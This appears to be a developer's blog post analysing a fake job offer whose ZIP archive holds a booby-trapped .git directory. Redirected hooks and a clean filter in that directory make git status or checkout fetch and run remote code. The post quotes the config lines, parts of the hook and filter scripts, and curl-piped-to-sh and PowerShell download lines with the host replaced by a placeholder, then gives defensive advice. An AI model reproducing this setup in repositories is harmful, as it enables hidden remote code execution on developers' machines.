

Recently, a recruiter from Cryptic Heaven contacted me on LinkedIn with an offer to work together. The company supposedly develops a financial system for users of cryptocurrency credit cards. The offer looked quite ordinary: they liked my experience and wanted to discuss possible cooperation.



I replied that I was interested in learning more about the project, the position, and the working conditions.

In response, I received the following message:

> We have prepared contract document, job description and project for you here:
> https:// Fake Site URL /contract
>
> If you agree, send me contract document after filling with your name.

That is, I was being asked to download the documents, look through the project, and fill in the contract.

The link led to a ZIP archive, `Contract-2026.zip`. I downloaded it and decided to take a look. As it turned out, it contained not only documents and source code, but also a rather interesting trap that uses standard Git features.

And the trap does not require launching some suspicious `install.sh`, installing dependencies, or building the project. In certain conditions, ordinary `git status` is enough, and a development environment can run it automatically.

Let me explain how it works.

## What was inside the archive

The archive contained `README.md`, `contract.docx`, and a full `.git` directory with the repository history, several branches, and local settings.

The README said that the documents were split across three branches:

- `doc` - cooperation agreement.
- `job` - job description.
- `codebase` - the project's source code.

The suggestion was to first read the job description, then study the agreement, and after that look at the code.

At first glance, everything seemed quite logical. A developer had been sent a repository where they could look at the project and its documentation.

The agreement itself, though, turned out to be a template with blank fields. It did not specify the legal entity, the amount of pay, the jurisdiction, or many other terms. The Smart Contract Developer job description also had many blank fields.

But there was something more interesting.

The ZIP contained a `.git` directory, and it had been specially configured.

Usually, a developer gets a link to GitHub or GitLab and runs `git clone`. Here, they sent me the entire repository in a ZIP, including the internal `.git` directory.

And this turned out to be crucial.

## A little about how Git works

Most developers think of Git as a tool for storing the history of changes and creating branches and commits.

But Git has mechanisms that allow it to run external programs.

The first mechanism is **Git Hooks**.

These are scripts that Git calls in response to certain events. For example, before a commit, after switching branches, or before sending changes to a server.

The second mechanism is **Git Filters**.

They allow the contents of files to be transformed when data is moved between the working directory and Git's internal storage.

Both mechanisms are entirely legitimate. They are used to automate development, format files, and perform various checks.

The problem arises when an attacker preconfigures them in a repository you are about to open on your computer.

## The first part of the attack - redirecting the location of Git Hooks

I looked into `.git/config`.

The following setting was there:

```ini
[core]
    hooksPath = .git/objects/interrupt/
```

By default, Git looks for hooks in the `.git/hooks` directory.

But the `core.hooksPath` parameter lets you specify a different directory.

In this case, the hooks were moved to:

```text
.git/objects/interrupt/
```

Why put them there?

Because most developers will not dig into the contents of `.git/objects`. Usually, it contains Git's internal objects, and nobody works with them manually.

There was a `post-checkout` file inside this directory.

Its contents:

```bash
#!/bin/sh
#
git status
```

Just one command.

The `post-checkout` hook runs automatically after switching branches with `git checkout` or `git switch`.

That is, when running the command:

```bash
git checkout job
```

Git will first switch branches, and then run this script.

Why did the malicious actor need `git status`? The answer is in the second part of the attack.

## The second part - Git Filters

The following setting was found in the same `.git/config`:

```ini
[filter "ltr"]
    clean = .git/ltr
```

This defines a custom filter named `ltr`.

The `clean` parameter specifies the command used to transform a file's contents from the working directory into the representation stored in Git.

Usually, this mechanism is used, for example, to normalize file contents before saving.

But Git still needs to know which files to apply this filter to.

For this, `.gitattributes` or the local `.git/info/attributes` file is used.

The archive I received contained:

```text
.git/info/attributes
```

With the following contents:

```text
* filter=ltr
```

The asterisk means that the filter is assigned to all matching files.

So, during certain operations, Git will run `.git/ltr`, passing it the file contents through standard input and expecting to receive the processed data through standard output.

And here an interesting detail appears.

The `git status` command is not always limited to simply reading file names and the current branch. To determine whether file contents have changed, Git may pass the data through the configured `clean` filter.

Thus, an entirely ordinary `git status` can run a third-party program.

I separately checked this in a safe test repository, replacing the filter with a harmless script that only records the fact of its invocation in a log. As a result, `git status` really did invoke the filter, and switching branches additionally invoked `post-checkout`.

Now it is clear why the attacker put an instruction in the README to switch between branches.

## Part Three - The Malicious Script Itself

All that remained was to look at the contents of `.git/ltr`.

The file is a shell script that, at first glance, looks a little more complicated than one might expect.

At the beginning, two service files are defined:

```bash
FLAG_FILE=".git/.clean_filter_last"
WATCH_LOCK=".git/.clean_filter_watch.lock"
```

The first file records the time of the last call to the filter. The second is used as a lock.

The thing is, Git can call the `clean` filter several times in a row - for different files.

If malicious code were downloaded and launched immediately on every call, we would end up with many parallel launches.

The script authors solved this problem.

Each time the filter is called, the timestamp is updated. A background process checks how much time has passed since the last call. Until two seconds have passed, it keeps waiting.

```bash
NOW=$(date +%s)

if [ $((NOW - LAST)) -lt 2 ]; then
    sleep 1
    continue
fi
```

This is a kind of debounce: wait until the series of calls to the filter is over, and only then perform the main action.

To prevent several watchers from being launched at the same time, a lock directory is created using `mkdir`.

After the wait, the most interesting part runs:

```bash
case "$OSTYPE" in
darwin*|linux*)
    curl -fsSL "https:// <remote-server> / <script>" | sh
    ;;
msys*|cygwin*)
    curl.exe -fsSL "https:// <remote-server> / <script>" | powershell
    ;;
*)
    curl -fsSL "https:// <remote-server> / <script>" | sh
    ;;
esac
```

This is a shortened version of the actual code from the archive. I replaced the download address with a placeholder.

The meaning is simple.

The script tries to determine the operating system, download additional code from a remote server, and execute it immediately.

For Linux and macOS, it is set up to run through `sh`, and for Windows through PowerShell.

Interesting, the attacker uses the `OSTYPE` variable, which is not guaranteed by the POSIX `sh` standard. Therefore, OS detection may not work as intended in every shell. But a default branch is also provided.

The remote server in the archive was located on the `Vercel` subdomain.

It is impossible to determine what exactly the downloaded script does from the ZIP contents alone. It could be a loader for the next stage of the attack, data theft, or some other malicious action.

But the very fact that remote code is secretly downloaded and executed already says enough.

And everything runs in the background, while standard output and errors are redirected to `/dev/null`.

That means the user may not notice anything at all.

## Why the filter does not break Git

At the end of `.git/ltr`, there is a command:

```bash
cat
```

This is also an important detail.

Git expects the `clean` filter to read data from standard input and return the transformed content to standard output.

But the attacker does not need to transform anything.

So the script simply returns the data it received unchanged.

To Git, this filter looks like it is working: the data came in, was processed, and came back.

At the same time, a background process was started that is supposed to download and execute remote code.

This means the malicious operation itself does not require any noticeable changes to the project's files.

## The most interesting part - how the attack can work without user involvement

Let's imagine an ordinary scenario.

You download a ZIP, unpack it, and see `README.md`.

If you simply open the folder in Windows File Explorer, Git does not start automatically. Simply unpacking the archive also does not trigger Git Hooks or Git Filters.

But the interesting scenarios begin after that.

**The first option - VS Code.**

Suppose your Markdown files are associated with Visual Studio Code. You double-click README to read the instructions.

VS Code can automatically detect Git repositories. If repository detection for open files is enabled, it can find `.git` in the parent folder.

After detecting the repository, the Git extension may run `git status` to show the current changes.

If the repository is trusted and Git really performs this check, an opportunity appears to run the malicious filter.

This gives us the following chain:

```text
Opening README.md
        |
        v
VS Code starts
        |
        v
A Git repository is detected
        |
        v
VS Code runs git status
        |
        v
Git uses the clean filter
        |
        v
.git/ltr is launched
        |
        v
A remote script is downloaded and executed
```

An important caveat: **simply opening the README in VS Code does not guarantee that the attack will run**. This depends on the editor settings, trust in the workspace, automatic repository detection, and the specific Git operations.

But this scenario is quite realistic.

**Second option - terminal.**

Many developers use a Git-aware command-line prompt.

For example, after changing to a directory, the terminal shows:

```text
~/projects/cryptic-heaven (doc) $
```

To display the branch name, some terminal themes use `git symbolic-ref`, `git rev-parse`, or similar commands.

By themselves, they should not run the `clean` filter.

But other configurations additionally check the state of the working directory through `git status`.

And in this case, a simple move into a directory:

```bash
cd cryptic-heaven
```

may indirectly lead to a malicious script being executed.

Not because the `cd` command runs Git, but because the terminal automatically updates its prompt after the directory changes.

**The third option - following the instructions in the README.**

This is the most obvious scenario.

The user reads that the documents are located on different branches and runs:

```bash
git checkout job
```

As a result, Git may call the filter while processing files, and after switching branches it will additionally run `post-checkout`.

That, in turn, will run `git status`.

So the archive's authors provided several ways for the trap to trigger.

## How does all this work on Windows if the script is written for Bash?

At first glance, it may seem that Windows is protected against this kind of attack, since `.git/ltr` begins with:

```bash
#!/bin/sh
```

But there is a nuance.

Git for Windows comes with a Unix-like environment and includes `sh.exe` and Bash.

That is why Git can run shell scripts even when the user is working in PowerShell or CMD.

You do not need to open Git Bash yourself.

If Git calls a script with the corresponding interpreter, it can run through the shell supplied with Git.

And the script itself already has a separate option for Windows - downloading the contents through `curl.exe` and passing them to PowerShell.

So the attack was designed from the start to target more than just Linux.

## Why did they send a ZIP instead of a link to GitHub?

In my view, this is one of the main features of the attack.

When we run an ordinary `git clone`, Git gets the history, branches, and file contents from the remote repository.

But the remote repository's local `.git/config` is not copied in the process.

Local Git Hooks are not transferred by an ordinary clone as ready-to-run hooks either.

Here, the attacker sent a ZIP that already contained a fully prepared `.git` directory.

It contained:

```text
.git/config
.git/info/attributes
.git/ltr
.git/objects/interrupt/post-checkout
```

After unpacking it, the user got a ready-to-use local Git repository with all the malicious settings.

And Git could start using them at the first suitable opportunity.

That is, the ZIP here is needed not simply for the convenience of transferring documents. It lets the sender pass along exactly the local Git configuration required for the trap to work.

## What it comes down to

The result is a rather interesting attack scheme.

The attacker does not ask you to run some unknown EXE file. Does not suggest disabling antivirus. Does not ask you to install an unknown package.

Instead, they send an ordinary-looking project that uses standard Git mechanisms.

A file filter is configured in one place. The path to hooks is changed in another. A shell script is stored in a third. The README tells you to switch between branches.

Each element on its own can look relatively harmless. But together, they form a chain for hidden code execution.

And what is especially unpleasant is that the launch can happen as a result of actions that a developer does not perceive at all as running someone else's program.

So I would formulate several rules for working with unfamiliar projects.

1. If an unfamiliar person sends you a ZIP with a ready-made `.git` directory, it is worth being cautious. Especially if it is not clear why you cannot use ordinary `git clone`.
2. Do not open suspicious repositories in an IDE until their Git settings have been checked. An IDE can run Git commands automatically.
3. When analyzing such an archive, it makes sense to separately check `.git/config`, `.git/info/attributes`, reconfigured Git Hooks, and filter commands. It is better to do this with an archive viewer or in an isolated environment, without running Git commands inside the repository.
4. If the archive has already been opened and the filter may have run, check the system and assess whether secrets and tokens need to be replaced, using a trusted device.

I want to emphasize separately that the presence of a downloader does not prove that the computer was successfully infected. To establish that, it is necessary to determine whether the filter actually ran and what code was received from the remote server.

But there is practically no doubt about the purpose of the setup we found: it is intended to secretly launch remote code on a developer's computer.

I liked the technical side of this attack. Not because it does anything fundamentally new, but because of how familiar tools were used here.

**We are used to thinking that `git status` is a safe command that simply shows the state of the repository. It turns out that when working with an untrusted local Git configuration, even such a familiar action can launch third-party programs.**

And this, perhaps, is the main takeaway from the whole story.
